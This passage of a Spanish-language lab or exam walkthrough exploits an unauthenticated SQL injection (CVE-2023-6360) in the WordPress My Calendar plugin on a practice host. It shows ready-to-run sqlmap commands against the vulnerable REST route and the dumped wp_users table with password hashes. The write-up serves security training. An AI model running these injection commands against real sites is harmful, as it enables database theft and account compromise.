 El escaneo revela tres usuarios válidos y cuatro vulnerabilidades asociadas con la versión del plugin "My Calendar".

---
## CVE Exploitation

Entre las vulnerabilidades identificadas en el plugin My Calendar, determino que [CVE-2023-6360](https://nvd.nist.gov/vuln/detail/CVE-2023-6360) es la más viable para la explotación, ya que permite realizar una inyección SQL de forma no autenticada.
* Referencia: [Mycalendar Plugin Unauthenticated Sql Injection](https://medium.com/tenable-techblog/wordpress-mycalendar-plugin-unauthenticated-sql-injection-cve-2023-6360-d272887ddf12).
* Referencia: [SQL Injection in My Calendar WordPress Plugin](https://www.tenable.com/security/research/tra-2023-40).

Utilizo sqlmap para identificar la base de datos activa.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ sqlmap -u "http://examen.thlcpptv16.thl/?rest_route=/my-calendar/v1/events&from=1*" --batch --current-db --dbms=MySQL
current database: 'wordpress'
```

Posteriormente, dumpeo el contenido de la tabla `wp_users`.

```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ sqlmap -u "http://examen.thlcpptv16.thl/?rest_route=/my-calendar/v1/events&from=1*" --batch --dump --dbms=MySQL -D wordpress -T wp_users
Database: wordpress
Table: wp_users
[3 entries]
+----+------------------------------+------------------------------------+---------------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url                     | user_pass                          | user_email                | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+------------------------------+------------------------------------+---------------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://examen.thlcpptv16.thl | $P$B43UAoTTnv0stdbxGqzwyQtyXm86x/1 | examinador@thlcpptv16.thl | examinador | 0           | examinador   | examinador    | 2024-06-15 20:27:49 | <blank>             |
| 2  | <blank>                      | $P$BJrv/Sv/rBlufcIW5FiMdUW4lA5UrN1 | tom@thlcpptv16.thl        | tom        | 0           | tom          | tom           | 2024-06-15 20:33:29 | <blank>             |
| 3  | <blank>                      | $P$B0uohNeAjd6aq3n0dv6NC7Nhkro0Kt. | jerry@thlcpptv16.thl      | jerry      | 0           | jerry        | jerry         | 2024-06-15 20:34:14 | <blank>             |
+----+------------------------------+------------------------------------+---------------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```

Los usuarios obtenidos de la tabla `wp_users` coinciden con los previamente enumerados mediante WPScan. Identifico que las contraseñas están cifradas con el algoritmo phpass.
